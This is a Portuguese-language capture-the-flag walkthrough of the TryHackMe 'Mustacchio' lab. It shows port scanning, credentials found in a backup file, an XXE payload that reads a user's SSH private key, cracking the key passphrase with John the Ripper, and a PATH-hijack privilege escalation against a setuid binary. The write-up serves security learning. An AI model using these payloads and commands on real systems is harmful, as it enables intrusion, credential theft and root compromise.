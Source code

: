 #ctf
# Mustacchio
https://tryhackme.com/room/mustacchio

## Identificação do alvo e exploração
Fazendo uma varredura de todas as portas no alvo com NMAP

      PORT   STATE SERVICE VERSION
      22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
      80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
      8765/tcp open  ultraseek-http

Com gobuster achei esse diretorio

    /custom/js

Dentro dele tem um arquivo users.bak

```sh
strings users.bak
```

E descobri isso admin:bulldog19

Entrando em http://IP:8765 abre uma area de login que usando as cred de cima é possivel autenticar

Nessa página tem um input que aceita XML, o formato do XML ta disponível em um arquivo também nessa página em /auth/dontforget.bak

Com input que aceita XML é possivel explorar XXE

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE comment [<!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```

Apos pegar o id_rsa, precisa formatar e atribuir a permissao 600

```sh
chmod 600 id_rsa
```

Antes de tentar conectar com ssh precisa descobrir a passphrase

```sh
cp $(locate ssh2john.py) .
python ssh2john.py id_rsa > id_rsa.hash
john id_rsa.hash -wordlist=/usr/share/wordlists/rockyou.txt
```

agora da para rodar

```sh
ssh barry@<IP> -i id_rsa
```
passphrase: urieljames

## Privesc
Na pasta /home/joe existe um arquivo "live_log" com permissão setuid, ou seja, ele pode ser executado com os privilegios do dono do arquivo (no caso o root)

Rodando o comando "strings live_log", é possivel ver que ele usa o comando "tail", com isso é possível escalar privilégio explorando o PATH:

```sh
echo "/bin/bash" > /tmp/tail
chmod 777 /tmp/tail
export PATH=/tmp:$PATH
./live_log
```
